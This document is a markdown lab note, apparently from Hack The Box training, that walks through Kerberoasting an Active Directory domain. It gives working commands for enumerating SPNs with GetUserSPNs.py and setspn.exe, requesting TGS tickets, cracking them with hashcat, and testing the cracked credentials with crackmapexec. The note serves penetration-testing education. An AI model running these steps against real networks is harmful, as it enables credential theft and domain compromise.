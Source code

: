 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Kerberoasting - Performing the Attack](#Kerberoasting\-\Performing\the\Attack)
  - [Kerberoasting with GetUserSPNs.py](#Kerberoasting\with\GetUserSPNs.py)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)
  - [Kerberoasting - Semi Manual method](#Kerberoasting\-\Semi\Manual\method)
      - [Enumerating SPNs with setspn.exe](#Enumerating\SPNs\with\setspn.exe)
      - [Targeting a Single User](#Targeting\a\Single\User)

## Table of Contents

  - [Kerberoasting - Performing the Attack](#Kerberoasting\-\Performing\the\Attack)
  - [Kerberoasting with GetUserSPNs.py](#Kerberoasting\with\GetUserSPNs.py)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)
  - [Kerberoasting - Semi Manual method](#Kerberoasting\-\Semi\Manual\method)
      - [Enumerating SPNs with setspn.exe](#Enumerating\SPNs\with\setspn.exe)
      - [Targeting a Single User](#Targeting\a\Single\User)

## Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.


Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

## Kerberoasting with GetUserSPNs.py

A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.





**Start By Gathering a listing of SPN's within the domain**
	will need a set of valid domain credentials and the IP address of a Domain Controller
#### Listing SPN Accounts with GetUserSPNs.py

  Listing SPN Accounts with GetUserSPNs.py

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

We can now pull all TGS tickets for offline processing using the `-request` flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.

#### Requesting all TGS Tickets

  Requesting all TGS Tickets

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the `sqldev` account.

#### Requesting a Single TGS ticket

  Requesting a Single TGS ticket

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```


#### Cracking the Ticket Offline with Hashcat

  Cracking the Ticket Offline with Hashcat

```shell
gdxqpardo@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

#### Testing Authentication against a Domain Controller

  Testing Authentication against a Domain Controller

```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - Semi Manual method

Before tools such as `Rubeus` existed, stealing or forging Kerberos tickets was a complex, manual process. As the tactic and defenses have evolved, we can now perform Kerberoasting from Windows in multiple ways. To start down this path, we will explore the manual route and then move into more automated tooling. Let's begin with the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary to enumerate SPNs in the domain.

#### Enumerating SPNs with setspn.exe

  Enumerating SPNs with setspn.exe

```cmd-session
C:\htb> setspn.exe -Q */*
```
#### Targeting a Single User

  Targeting a Single User

```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

























